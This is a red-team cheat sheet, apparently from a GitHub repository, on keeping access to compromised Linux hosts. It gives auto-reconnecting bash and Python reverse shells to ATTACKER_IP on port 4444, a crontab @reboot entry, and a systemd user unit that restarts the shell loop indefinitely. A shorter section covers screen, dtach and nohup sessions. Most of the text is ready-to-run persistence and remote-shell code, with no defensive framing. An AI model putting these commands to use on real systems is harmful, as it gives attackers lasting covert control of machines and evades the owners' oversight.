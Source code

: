 ```yaml
---
title: Linux Persistence
category: Persistence
tags: [shell, task, persistence, session, loftl]
tools: ['cron', 'screen', 'dtach', 'nohup']
---
```


# Linux Persistence

## Reverse Shells

**Target (background, auto-reconnect):**

```bash
( while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done ) & disown
```

**Alternate (Python one-liner wrapped for reconnect):**

```bash
( while true; do python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"])'; sleep 10; done ) & disown
```

**Cron it:**

```bash
crontab -e
# add a line (example: run a reconnect script at reboot)
@reboot (sleep 60; while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done) &
```

---

## Sessions (No tmux)

### Screen

Often available when tmux is not.

```bash
# screen
screen -S redteam
# inside: run tools
# detach: Ctrl-a d
# reattach: screen -r redteam

# dtach (if present)
dtach -A /tmp/attach.sock -z bash
# detach: Ctrl-\, reattach: dtach -a /tmp/attach.sock
```

---

### Simple background

When you only need a job to continue after logout (no interactive reattach).

```bash
# start a long job in background and detach it from shell
nohup command -args > /tmp/command.out 2>&1 &
# if using bash/zsh: disown the job so SIGHUP won't kill it
disown %1

# check later after reconnect:
tail -f /tmp/command.out

# Alternative if nohup is odd
setsid command -args -o /tmp/command.log </dev/null >/dev/null 2>&1 &
```

## Systemd

### User unit

Create `~/.config/systemd/user/persist-shell.service`:

```ini
[Unit]
Description=Persistent reverse shell loop

[Service]
Type=simple
ExecStart=/bin/bash -lc 'while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done'
Restart=always

[Install]
WantedBy=default.target
```

Enable & start (user unit):

```bash
systemctl --user daemon-reload
systemctl --user enable --now persist-shell.service
```

